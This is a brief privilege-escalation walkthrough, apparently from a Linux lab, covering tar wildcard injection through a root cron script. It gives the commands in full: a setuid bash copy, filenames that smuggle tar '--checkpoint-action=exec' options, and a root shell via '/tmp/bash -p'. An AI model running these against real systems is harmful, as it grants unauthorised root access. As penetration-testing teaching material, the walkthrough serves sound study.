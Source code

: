 **Detection**
Victim's  machine
- In command prompt type: 
```
cat /etc/crontab
```
- From the output, notice the script 
```
“/usr/local/bin/compress.sh”
```
- In command prompt type: 
```
cat /usr/local/bin/compress.sh
```

- From the output, notice the wildcard (*) used by ‘tar’.

**Exploitation**
Victim's machine
- In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

- Wait 1 minute for the Bash script to execute.
- In command prompt type: 

```
/tmp/bash -p

id
```


More on this here:
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

